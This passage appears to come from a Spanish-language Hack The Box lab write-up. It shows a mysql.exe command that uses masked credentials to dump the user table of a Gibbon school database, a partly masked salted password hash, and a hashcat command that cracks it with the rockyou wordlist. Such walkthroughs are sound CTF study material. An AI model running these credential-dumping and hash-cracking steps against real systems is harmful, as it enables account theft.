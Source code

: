 ```cmd
gibbonttdaydate
gibbonttdayrowclass
gibbonttdayrowclassexception
gibbonttimport
gibbonttspacebooking
gibbonttspacechange
gibbonunit
gibbonunitblock
gibbonunitclass
gibbonunitclassblock
gibbonunitoutcome
gibbonusernameformat
gibbonyeargroup
```
```cmd
.\mysql.exe -h localhost -u MrXXXXsDB -pXXXXXXXXXXXXXX!?1 -e "USE gibbon; SELECT * FROM gibbonperson;"
```
![alt text](/assets/img/posts/theFrizz-htb-s7/image-4.png)

En esta utlima parece que tenemos unas credenciales junto con su salt. El tipo de hash es bcrypt, sha256+salt o algo parecido por lo que investigando un poco los hashes podemos formar el hash para hashcat.

```plaintext
067f746faXXXXXXXXXXXXXXXXXXXXXXXXXXXX784242b0b0c03:/aACFXXXXXXXXXXX2489
```

### Crackeando el hash

Ahora podemos cracker el hash con hashcat.

```bash
❯ hashcat -m 1420 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

